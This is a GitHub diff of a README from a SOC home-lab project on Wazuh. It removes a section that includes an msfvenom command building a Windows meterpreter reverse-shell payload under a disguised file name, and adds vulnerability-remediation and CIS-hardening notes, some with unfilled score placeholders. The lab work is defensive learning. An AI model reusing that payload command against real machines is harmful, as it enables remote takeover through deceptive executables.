

Before and after one commit to san1cs/SOC_Home_Lab, a Markdown page: 9_Wazuh_Deployment_&_Alert_Validation/README.md, 3 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/9_Wazuh_Deployment_&_Alert_Validation/README.md
+++ b/9_Wazuh_Deployment_&_Alert_Validation/README.md
@@ -156,9 +156,9 @@
 
 ---
 
-## 4.Real-Time Malware Detection and Forensic Analysis
+## 4.Vulnerability Detection
 
-### 4.1.Full Attack Chain: Command and Control (C2)
+### 4.1.Vulnerability Assessment Report
 
-* Creating a malware uisng msfvenom `sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.251.3 LPORT=4444 --platform windows -a x64 -f exe -o WindowsPCHealthCheckSetup.msi.exe`.
+* The vulnerability scan performed by the Wazuh Cyber Threat Intelligence (CTI) module identified a critical risk level on the target machine. The system is currently exposed to a vast attack surface due to outdated operating system components and browser software.
 
@@ -170,9 +170,9 @@
 
-* Meterpreter session opened in multi/handler.
+* **Remediation Plan:** A comprehensive Windows Update would resolve over 90% of these findings by patching the kernel and updating system-critical browser components. This demonstrates that 'Unpatched Software' was the primary reason the simulated malware was able to operate with such high privileges.
 
-* **Executing Privilege Escalation:** ``
+### 4.2.Remediation (The "Fix")
 
-* Deleting/Moving the malware deep inside the system ``
+* **OS Patching:** Execute a full Windows Update to move the build from 19045 to the latest 2026 security baseline. This will resolve approximately 12 of the 17 Critical CVEs.
 
-* **Setting Persistence:** ``
+* **Application Lifecycle:** Manually update or reinstall Microsoft Edge to version 130+
 
@@ -180,2 +180,30 @@
 
-### 4.2.Post-Exploitation Analysis: Privilege Escalation and Detecting C2 Persistence
+* [**Before report**](./report/events-2026-03-03T02_45_31.573Z.csv)
+
+* [**After report**](./report/)
+
+---
+
+## 5.Security Configuration Assessment
+
+### 5.1.SCA Report
+
+* The Security Configuration Assessment (SCA) of the target workstation returned a failing score of 27% against the CIS Microsoft Windows 10 Enterprise Benchmark. With 301 failed checks, the system is highly susceptible to credential theft and lateral movement. Key failures include non-compliance with password complexity and account lockout policies, directly violating ISO 27001 and GDPR security requirements.
+
+ ![win](./screenshots/wazuh13.png)
+
+### 5.2.SCA Score (Hardening)
+
+* Following the initial assessment which showed a baseline score of 27%, a targeted hardening phase was initiated. By manually addressing high-impact configuration failures, the system reached a passing score of [Insert New Score]%. This represents a total improvement of [New Score minus 27]% in the overall security posture of the Windows 10 endpoint.
+
+ ![win](./screenshots/wazuh14.png)
+
+* [**Before report**](./report/checks.csv)
+
+* [**After report**](./report/)
+
+* _Used the built-in instructions in Wazuh to find exactly what was wrong with the system's settings. By following the step-by-step guides, navigated into the Windows Local Security Policy and fixed the security gaps. This ensured the computer was locked down according to official industry standards (CIS), rather than just guessing which settings to change._
+
+[PS](./folder/powershell.txt)
+
+---
```
Also changed, not shown: other parts of 9_Wazuh_Deployment_&_Alert_Validation/README.md (+4 -4 lines).
